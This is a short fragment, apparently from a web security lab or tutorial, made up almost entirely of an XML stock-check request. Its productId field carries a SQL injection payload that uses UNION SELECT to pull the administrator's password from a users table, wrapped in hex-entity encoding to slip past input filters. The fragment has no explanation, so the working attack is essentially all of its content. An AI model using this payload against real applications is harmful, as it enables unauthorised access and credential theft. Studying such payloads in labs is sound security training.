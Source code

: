 <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId><@hex_entities>**1 UNION SELECT password from users where username ='administrator'--**</@hex_entities></productId><storeId>3</storeId></stockCheck>
